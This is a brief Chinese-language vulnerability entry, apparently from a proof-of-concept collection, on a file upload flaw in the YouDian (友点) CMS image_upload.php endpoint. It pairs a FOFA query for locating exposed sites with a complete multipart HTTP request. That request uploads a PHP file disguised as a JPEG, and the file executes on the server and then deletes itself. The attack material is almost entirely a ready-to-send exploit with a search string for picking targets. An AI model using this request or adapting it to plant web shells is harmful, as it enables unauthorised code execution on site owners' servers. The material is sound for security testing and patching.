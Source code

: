 ## 友点建站系统image_upload.php存在文件上传漏洞


## fofa
```
app="友点建站-CMS"
```


## poc
```
POST /Public/ckeditor/plugins/multiimage/dialogs/image_upload.php HTTP/1.1
Host: 127.0.0.1
Content-Type: multipart/form-data;boundary=----WebKitFormBoundarydAPjrmyKewWuf59H
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

------WebKitFormBoundarydAPjrmyKewWuf59H
Content-Disposition: form-data; name="files"; filename="ceshi.php"
Content-Type: image/jpg
 
<?php echo md5('666');unlink(__FILE__);?>
------WebKitFormBoundarydAPjrmyKewWuf59H--
```
![cc46175e2bc4984a6dacff9ec6771b37](../../images/498ea42c-e9d2-4600-b03e-f59c4f7cfd8d.png)

![38fb48542afcd1995688e8d030f32750](../../images/022df476-917d-4ed1-b877-3e2aff0d8611.png)
